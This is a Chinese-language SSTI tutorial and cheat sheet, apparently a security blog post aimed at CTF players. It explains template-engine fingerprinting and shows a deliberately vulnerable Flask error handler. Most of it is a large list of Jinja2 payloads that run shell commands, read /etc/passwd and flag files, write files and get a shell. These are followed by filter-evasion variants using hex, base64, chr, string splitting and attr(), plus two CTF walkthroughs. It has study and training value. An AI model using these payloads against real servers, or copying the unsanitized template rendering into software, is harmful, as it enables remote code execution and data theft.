









## SSTI
  
SSTI（Server-Side Template Injection）是一种发生在服务器端模板中的漏洞。当应用程序接受用户输入并将其直接传递到模板引擎中进行解析时，如果未对用户输入进行**充分的验证和过滤**，攻击者可以通过构造**恶意的输入**来注入模板代码，导致服务器端模板引擎执行恶意代码。

<!--more-->
---

常见的模板有很多，不同模板的语法也不相同，在实际情况我们可以测试判断属于哪一种模板。
```
Twig{{7*'7'}}结果49 
jinja2{{7*'7'}}结果为7777777  //jinja2的常见参数是name
smarty7{*comment*}7为77
```

下面将引用一个简单的例子来说明，假设有一个包含以下代码的Twig模板文件 `template.twig`：
```
Hello, {{ name }}!
```

在后端PHP代码中，可能会这样使用Twig引擎来渲染模板：
```
$loader = new \Twig\Loader\FilesystemLoader('/path/to/templates');
$twig = new \Twig\Environment($loader);

$name = $_GET['name']; // 从用户输入获取name参数
echo $twig->render('template.twig', ['name' => $name]);
//正确的代码应该在后面两段加上过滤和验证
```

如果攻击者将name参数设置为恶意Twig模板代码，比如：
```
{{ 7 * 7 }}
```

那么最终生成的模板内容将是：
```
Hello, 49!
```

但是，如果攻击者将name参数设置为更危险的代码，比如：
```
{{ _self.env.registerUndefinedFilterCallback('exec') }}
{{ filter('ls -la') }}
```

这将导致Twig引擎执行系统命令 ls -la，可能导致服务器远程命令执行漏洞，造成严重安全问题。

<br>

## 常见的模版

**PHP**  
Twig、Smarty 、Blade

**Python**  
Jinja2、Tornado、Django、MaKo

**Java**  
FreeMarker、Velocity

**更多模版参考**：


<br>

## python案例说明
```
from flask import Flask    # Jinja2是Flask框架的一部分，Jinja2会把模板参数提供的相应的值替换成 {{…}} 块
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def hello_world():
    return 'Hello World!'

@app.errorhandler(404)
def page_not_found(e):
    template = '''
{%% block body %%}
    <div class="center-content error">    # 这里是报错页面所显示的内容
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>    # %s接收404_url下的参数，返回到报错页面中
    </div> 
{%% endblock %%}
''' % (request.args.get('404_url'))
    return render_template_string(template), 404

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
```

随便输入字符使得页面报错，并利用404_url来接收参数，发现存在注入

<br>

使用**payload**进行注入
```
使用__import__的os。
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```


<br>

**基础类的执行**
```
__class__  返回类型所属的对象（类）
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的
__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

## SSTI漏洞利用基本流程
获取当前类 -> 获取其object基类 -> 获取所有子类 -> 获取可执行shell命令的子类 -> 获取可执行shell命令的方法 -> 执行shell命令

## 常用payload
### 无过滤情况
```
#**简单查找具体python类的索引：**
import os
print(''.__class__.__bases__[0].__subclasses__().index(os._wrap_close))


#读取config
如果flag写入config内，那么可以直接{{config}}查看或者{{self.dict._TemplateReference__context.config}}

#读取文件类，<type ‘file’> file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)


#直接使用popen命令，python2是非法的，只限于python3
！！！！！！！！
**os._wrap_close** 类里有popen和builtins,一般位置为132~139附近
<class ‘site._Printer’> 调用os的popen执行命令
<class ‘warnings.catch_warnings’>一般位置为59，可以用它来调用file、os、eval、commands等


{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}


#调用os的popen执行命令
#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
#python3专属
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}


#调用eval函数读取
#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
{{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}
#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} 
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}
{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


#调用 importlib类
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}


#调用linecache函数
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


#调用communicate()函数
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}


#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}}  ----python2的str类型不直接从属于基类，所以payload中含有两个 .__bases__
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}


#通用 getshell
原理：找到含有 __builtins__ 的类，利用即可。
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
```
**参考文章**：https://blog.csdn.net/2301_77485708/article/details/132467976


### 有过滤情况

#### 绕过[]
```
1、使用__getitem__绕过
{{().__class__.__bases__[0]}}
可替换为
{{().__class__.__bases__.__getitem__(0)}}

```

#### 绕过.
```
1.使用中括号[]绕过

{{().__class__}} 
可替换为:
{{()["__class__"]}}

举例：
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}


2.使用attr()绕过

attr()函数是Python内置函数之一，用于获取对象的属性值或设置属性值。它可以用于任何具有属性的对象，例如类实例、模块、函数等。

{{().__class__}} 
可替换为：
{{()|attr("__class__")}}
{{getattr('',"__class__")}}

举例：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```

#### 绕过单双引号
```
1.request绕过

{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd    
#分析：
request.args 是flask中的一个属性,为返回请求的参数,这里把path当作变量名,将后面的路径传值进来,进而绕过了引号的过滤。
若args被过滤了，还可以使用values来接受GET或者POST参数。

其它例子：
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd

{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd


2.chr绕过

{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(chr(111)%2Bchr(115)).popen(chr(119)%2Bchr(104)%2Bchr(111)%2Bchr(97)%2Bchr(109)%2Bchr(105)).read()}}

注意：使用GET请求时，+号需要url编码，否则会被当作空格处理。
```

#### 绕过关键字
```
1.使用切片将逆置的关键字顺序输出，进而达到绕过。

""["__cla""ss__"]
"".__getattribute__("__cla""ss__")
反转
""["__ssalc__"][::-1]
"".__getattribute__("__ssalc__"[::-1])


2.利用"+"进行字符串拼接，绕过关键字过滤。

{{()['__cla'+'ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev'+'al']("__im"+"port__('o'+'s').po""pen('whoami').read()")}}


3.join拼接

利用join（）函数绕过关键字过滤

{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}


4.利用引号绕过

{{[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()}}


5.使用str原生函数replace替换

将额外的字符拼接进原本的关键字里面，然后利用replace函数将其替换为空。

{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}


6.ascii转换

将每一个字符都转换为ascii值后再拼接在一起。

"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'


7.16进制编码绕过

"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

例子：
{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('os').popen('whoami').read()}}
\
同理，也可使用八进制编码绕过
```

#### base64编码绕过
```
对于python2，可利用base64进行绕过，对于python3没有decode方法，不能使用该方法进行绕过。

"__class__"==("X19jbGFzc19f").decode("base64")

例子：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}  
等价于  
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

#### unicode编码绕过
```

lipsum.__globals__['os'].popen('tac /f*').read()
```

#### Hex编码绕过
```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}   
等价于   
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 绕过init
```
可以用__enter__或__exit__替代__init__

{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
 
{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

```
**参考文章**：https://blog.csdn.net/2301_77485708/article/details/132467976
<br>

## CTF习题(1)---BUUCTF shrine1

1、这里看到flask框架及渲染，猜测是ssti注入

<br>

2、在shrine路径下输入{{7*7}}验证

<br>

3、由于safe_jinja函数对输入的参数进行了过滤，不能直接使用`{{config}}`，但这里可以使用python内置函数url_for 或 get_flashed_messages

<br>

4、爆出current_app，由于flag存在app.config里  
所以输入url_for.__globals__.current_app.config['FLAG']，得到flag

<br>

## CTF习题(2)---攻防世界 Web_python_template_injection

1、打开网站有提示是python模板注入，随便输入字符使网站出错，发现有SSTI注入



<br>

2、输入`{{().__class__.__base__.__subclasses__()}}`获取所有类

<br>

3、读取文件类，<type ‘file’> file位置一般为40,  
输入`{{().__class__.__base__.__subclasses__()[40]('fl4g').read()}}`获取flag

<br>

<br>
所以在开发Web应用程序时，始终要警惕并避免直接使用用户输入构造动态内容，尤其是在模板渲染过程中。对用户输入进行严格的验证和过滤，以及遵循最佳的安全实践，是保护系统免受SSTI等安全威胁的关键。
